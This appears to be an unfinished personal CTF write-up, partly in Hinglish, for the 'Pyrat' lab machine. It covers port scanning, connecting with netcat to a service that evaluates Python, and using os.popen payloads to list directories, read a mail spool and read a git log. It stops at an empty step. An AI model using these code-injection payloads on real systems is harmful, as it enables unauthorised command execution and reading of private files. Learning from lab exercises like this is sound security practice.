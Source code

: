 # ctf-journey

# PYRAT CTF CHALLENGE

![image](https://github.com/idevyogi/ctf-journey/blob/1d2e7439ec3c447fea1c18a03770848f0baff211/Screenshot%202025-07-16%20164113.png)
![image](https://raw.githubusercontent.com/idevyogi/ctf-journey/5177707821f5c48910197600dc368d8e2d22ad02/PYRAT%20CTF%20CHALLENGE.png)

# Step 1 rustscan 

PORT        STATE       SERVICE       REASON

22/tcp      open         ssh         syn-ack ttl 60

8000/tcp    open      http-alt       syn-ack ttl 60

i cant go on ssh because i have zero information about credentials
so i browse port 8000 in fire fox browser

# Step 2 http://10.10.121.147:8000/

Try a more basic connection! 


TCP ya UDP connection banaana, jisme data end-to-end stream ke form me exchange hota hai — bina kisi extra formatting ke.

# Step 3  Usage of NETCAT for basic connection

nc <target_ip> <port>

(idevyogi㉿kali)-[~]

└─$ nc 10.10.121.147 8000

after this i got my cursor in next line and just blank theen i give hello nomral in it then it respond to me in this way

REASON OF HELLO -

✅ Agar reply milta hai, to samajh aata hai ki port alive aur responsive hai

hello

name 'hello' is not defined


# Step 4 as i know defined error is given in programming python so i try their code

print(1+1)

2

it works so now i will give input of python to retrieve information

# Step 5 i use python code for listed item 

print(__import__('os').popen('ls').read())

this not list file 


print(__import__('os').popen('ls /').read())

but this kist me item because from this ls /it give root directories files.

--  root directory listed in this way

bin

boot             # command   kya karti haii      KAB FAIL HO SKTI HAI

dev                  ls        CWD LIST KRNA      Agar inaccessible/empty hO

etc                  ls/       ROOT LIST KARNA     RARELY(ALWAYS ACCESIBLE)

home

lib

lib32

lib64

libx32

lost+found

media

mnt

opt

proc

root

run

sbin

srv

swap.img

sys

tmp

usr

var

# Step 6

In this now i will explore various directories in point of veiw of flag

so now i explore var

print(__import__('os').popen('cat /var/mail/think').read())

From root@pyrat  Thu Jun 15 09:08:55 2023

Return-Path: <root@pyrat>

X-Original-To: think@pyrat

Delivered-To: think@pyrat

Received: by pyrat.localdomain (Postfix, from userid 0)

        id 2E4312141; Thu, 15 Jun 2023 09:08:55 +0000 (UTC)
        
Subject: Hello

To: <think@pyrat>

X-Mailer: mail (GNU Mailutils 3.7)

Message-Id: <20230615090855.2E4312141@pyrat.localdomain>

Date: Thu, 15 Jun 2023 09:08:55 +0000 (UTC)

From: Dbile Admen <root@pyrat>

Hello jose, I wanted to tell you that i have installed the RAT you posted on your GitHub page, i'll test it tonight so don't be scared if you see it running. Regards, Dbile Admen

-- where i got this information

# Step 6 

Now i go in the folder of the .git

print(__import__('os').popen('git --git-dir=/opt/dev/.git log').read())

commit 0a3c36d66369fd4b07ddca72e5379461a63470bf

Author: Jose Mario <josemlwdf@github.com>

Date:   Wed Jun 21 09:32:14 2023 +0000


    Added shell endpoint
    

--- where i got this type of information in this


Note - Now at this point i know some basic details which is in these two 

# Step 7 - 







